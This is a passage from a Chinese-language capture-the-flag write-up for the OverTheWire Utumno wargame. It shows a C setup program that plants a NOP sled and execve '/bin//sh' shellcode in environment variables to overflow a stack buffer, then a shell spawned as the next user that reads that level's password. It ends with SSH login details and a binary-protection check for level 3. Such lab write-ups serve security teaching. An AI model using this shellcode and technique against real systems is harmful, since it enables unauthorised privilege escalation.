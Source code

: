 选一个雪橇中间的位置,这里选`0xffffdf80`。让我们重写我们的setup.c。

```cpp
#include <unistd.h>

int main(){
        char *argv[] = { NULL };
        char *envp[] = { "0", "1", "2","3","4","5","6","7","\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80","aaaabbbbccccAAAA\x80\xdf\xff\xff", NULL };
        execve("/utumno/utumno2", argv, envp);
}
```

注意`\x80\xdf\xff\xff`写的顺序，因为粘贴的时候是低地址开始粘贴的。

```bash
utumno2@utumno:/tmp/fdk$ gcc -m32 setup.c -o setup
utumno2@utumno:/tmp/fdk$ ./setup 
$ whoami
utumno3
$ cat /etc/utumno_pass/utumno3
zuudafiine
$ 

```

## Utumno 03

**SSH :** ssh utumno3@utumno.labs.overthewire.org -p 2227

**Pass :** zuudafiine

依旧选择dump下来分析。

```bash
$ ./crawl.sh 3 zuudafiine
sshpass -p zuudafiine scp -P 2227 utumno3@utumno.labs.overthewire.org:/utumno/utumno3  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

扔到IDA中分析一波...
